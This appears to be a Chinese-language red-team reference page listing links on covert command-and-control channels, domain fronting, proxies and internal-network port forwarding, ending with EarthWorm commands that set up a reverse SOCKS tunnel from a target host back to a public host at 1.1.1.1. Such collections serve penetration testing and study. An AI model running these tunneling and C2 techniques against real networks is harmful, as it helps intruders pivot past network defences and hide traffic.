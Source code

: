 ## 隐匿攻击 

### Command and Control  
* ICMP :https://pentestlab.blog/2017/07/28/command-and-control-icmp/
* DNS :https://pentestlab.blog/2017/09/06/command-and-control-dns/
* DropBox :https://pentestlab.blog/2017/08/29/command-and-control-dropbox/
* Gmail :https://pentestlab.blog/2017/08/03/command-and-control-gmail/
* Telegram :http://drops.xmd5.com/static/drops/tips-16142.html
* Twitter :https://pentestlab.blog/2017/09/26/command-and-control-twitter/
* Website Keyword :https://pentestlab.blog/2017/09/14/command-and-control-website-keyword/
* PowerShell :https://pentestlab.blog/2017/08/19/command-and-control-powershell/
* Windows COM :https://pentestlab.blog/2017/09/01/command-and-control-windows-com/
* WebDAV :https://pentestlab.blog/2017/09/12/command-and-control-webdav/
* Office 365 :https://www.anquanke.com/post/id/86974
* HTTPS :https://pentestlab.blog/2017/10/04/command-and-control-https/
* Kernel :https://pentestlab.blog/2017/10/02/command-and-control-kernel/
* Website :https://pentestlab.blog/2017/11/14/command-and-control-website/
* WMI :https://pentestlab.blog/2017/11/20/command-and-control-wmi/
* WebSocket :https://pentestlab.blog/2017/12/06/command-and-control-websocket/
* Images :https://pentestlab.blog/2018/01/02/command-and-control-images/
* Web Interface :https://pentestlab.blog/2018/01/03/command-and-control-web-interface/
* JavaScript :https://pentestlab.blog/2018/01/08/command-and-control-javascript/
*  ... 

### Fronting 
* [Domain Fronting ](https://evi1cg.me/archives/Domain_Fronting.html)
* [Tor_Fronting.](https://evi1cg.me/archives/Tor_Fronting.html)
  
### 代理 
* VPN 
* shadowsockts :https://github.com/shadowsocks
* HTTP :http://cn-proxy.com/
* Tor 

## 内网跨边界应用 

### 内网跨边界转发 
* [NC端口转发](https://blog.csdn.net/l_f0rm4t3d/article/details/24004555) 
* [LCX端口转发 ](http://blog.chinaunix.net/uid-53401-id-4407931.html)
* [nps](https://github.com/cnlh/nps)
* 代理脚本 
    1. [Tunna ](https://github.com/SECFORCE/Tunna)
    2. [Reduh ](https://github.com/sensepost/reDuh)
* ... 
  
### 内网跨边界代理穿透 
#### [EW](https://rootkiter.com/EarthWorm/) 
正向 SOCKS v5 服务器:
```
./ew -s ssocksd -l 1080
```
 反弹 SOCKS v5 服务器:
a) 先在一台具有公网 ip 的主机A上运行以下命令：
```
$ ./ew -s rcsocks -l 1080 -e 8888 

```
b) 在目标主机B上启动 SOCKS v5 服务 并反弹到公网主机的 8888端口
```
$ ./ew -s rssocks -d 1.1.1.1 -e 8888 
```